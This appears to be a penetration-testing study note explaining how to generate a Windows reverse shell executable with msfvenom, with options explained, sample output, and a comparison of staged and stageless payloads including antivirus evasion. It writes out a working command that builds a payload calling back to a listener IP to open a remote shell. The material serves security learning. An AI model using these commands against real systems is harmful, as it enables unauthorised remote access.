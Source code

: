 msfvenom -p windows/x64/shell/reverse\_tcp -f exe -o shell.exe LHOST=\<listen-IP> LPORT=\<listen-port>

* \-f \<format> specifies the output format.
* \-o \<file> specifies output location and filename for the generated payload.
* LHOST=\<IP> specifies IP to connect back to.
* LPORT=\<port>specifies port on the local machine to connect back to.
  * This can be anything between 0 and 65535 that is not already in use.
  * Ports below 1024 are restricted and require a listener running with root privileges.

msfvenom -p windows/x64/shell/reverse\_tcp -f exe -o shell.exe LHOST=10.11.12.223 LPORT=443

\[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

\[-] No arch selected, selecting arch: x64 from the payload

No encoder specified, outputting raw payload

Payload size: 510 bytes

Final size of exe file: 7168 bytes

Saved as: shell.exe

### **Staged vs Stageless Payloads** <a href="#jwaeuh2h6weo" id="jwaeuh2h6weo"></a>

#### **Staged** <a href="#id-8ha3sxpn82pu" id="id-8ha3sxpn82pu"></a>

* Payloads are sent in two parts.
* First part is called the _stager_.
  * Piece of code executed directly on the server itself.
    * Connects to waiting listener and uses the connection to load the real payload.
      * Real payload is executed directly.
      * Prevents payload from touching the disk where it could be caught by traditional anti-virus solutions.
* Payload is split into two parts.
  * Small initial stager.
  * Bulkier reverse shell code that is downloaded when stager is activated.
* Requires a special listener.
  * Usually Metasploit multi/handler.
* Harder to use than stageless.
* Initial stager is a lot shorter.
* Is sometimes missed by less-effective antivirus software.
* Modern day antivirus solutions will make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager.
  * Makes staged payloads less effective than they would once have been in this area.

#### **Stageless** <a href="#o1eswmiqvqt5" id="o1eswmiqvqt5"></a>

* More common than staged.
* Entirely self-contained.
  * One piece of code that sends a shell back immediately to the waiting listener when executed.
* Tend to be easier to use and catch than staged.
* Bulkier than staged.
* Easier for an antivirus or intrusion detection program to discover and remove.
